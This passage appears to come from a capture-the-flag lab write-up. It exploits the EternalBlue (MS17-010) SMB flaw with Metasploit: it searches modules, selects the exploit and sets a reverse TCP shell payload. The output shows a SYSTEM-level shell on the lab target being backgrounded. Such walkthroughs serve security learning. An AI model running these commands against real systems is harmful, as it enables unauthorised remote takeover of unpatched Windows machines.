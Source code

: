 So there's 3 ports open and are vulnerable to Eternal Blue.

## Metasploit

Now it's time to start the metasploit framework to run the Eternal Blue exploit. 

```cli
msfconsole
```

The output was 
```cli
search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


use 2

```

Then set your RHOST to be the vunerable server's IP address and pick a payload, in this case I chose a reverse shell, which will allow me to remotely execute commands on the target machine.

```cli
set payload windows/x64/shell/reverse_tcp
```

And run the exploit with ```exploit```.
The result is as below. I then sent this to the backgroudn to use another exploit to convert it to a meterpreter session which is much more convinient.

```cli
[*] Command shell session 1 opened (10.8.85.78:4444 -> 10.10.166.47:49475) at 2021-02-28 22:13:51 +0000
[+] 10.10.166.47:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.166.47:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.166.47:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>^Z
Background session 1? [y/N]  y

```

